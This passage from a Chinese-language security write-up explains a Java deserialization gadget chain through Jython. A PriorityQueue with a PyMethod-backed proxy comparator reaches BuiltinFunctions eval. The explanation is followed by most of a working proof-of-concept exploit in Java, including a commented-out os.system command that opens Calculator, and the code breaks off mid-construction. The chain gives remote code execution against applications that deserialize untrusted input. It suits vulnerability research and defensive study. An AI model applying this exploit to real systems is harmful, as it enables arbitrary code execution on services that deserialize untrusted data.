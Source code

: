 前半部分的触发就是利用 PriorityQueue 的 heapify 触发比较器的 compare 方法，而把比较器设置为代理类，就能触发比较器的 invoke 方法。  
构建一个PyMethod的代理类，接口类型为Comparator，在反序列化队列时，触发代理类compare方法的调用，从而进入到PyMethod#invoke里。然后就是后续构造BuiltinFunctions和pystring

几个点：

1.  创建 PyMethod 的代理类，设置接口类型为 Comparator
2.  org.python.core.BuiltinFunctions 的 index 需要是 18，触发 eval
3.  pymethod 的 im\_class type 需要是 pyargs 所指定的 type，否则 checkSelf 方法无法通过

最终的 poc

```plain
package org.example;  

import org.python.core.*;  
import sun.misc.Unsafe;  

import java.io.*;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.util.Comparator;  
import java.util.HashMap;  
import java.util.PriorityQueue;  

public class Main {  
    public static void main(String[] args) throws Exception {  
        Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
        unsafeField.setAccessible(true);  
        Unsafe unsafe = (Unsafe) unsafeField.get(null);  

        PyMethod pyMethod = (PyMethod) unsafe.allocateInstance(PyMethod.class);  

        PyObject builtinFunctions = (PyObject) unsafe.allocateInstance(Class.forName("org.python.core.BuiltinFunctions"));  

        Field index = builtinFunctions.getClass().getSuperclass().getDeclaredField("index");  
        index.setAccessible(true);  
        index.set(builtinFunctions, 18);  

        pyMethod.__func__ = builtinFunctions;  
        pyMethod.im_class = new PyString().getType();  
        HashMap<Object, PyObject> _args = new HashMap<>();  
        _args.put("rs", new PyString("print('Hello World')")); 
        //_args.put("rs", new PyString("import os;\nos.system('open -a /System/Applications/Calculator.app')")); 

        PyStringMap locals = new PyStringMap(_args);  
        Object[] queue = new Object[] {  
                new PyString("__import__('code').InteractiveInterpreter().runcode(rs)')"),
                locals,
        };  

        // create dynamic proxy  
        Comparator o = (Comparator) Proxy.newProxyInstance(Main.class.getClassLoader(),  
                new Class[]{Comparator.class},  
                pyMethod);  

        // set comparator  
        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, o);  

        Field f = priorityQueue.getClass().getDeclaredField("queue");  
        f.setAccessible(true);  
        f.set(priorityQueue, queue);  
        Field f2 = priorityQueue.getClass().getDeclaredField("size");  
        f2.setAccessible(true);  
```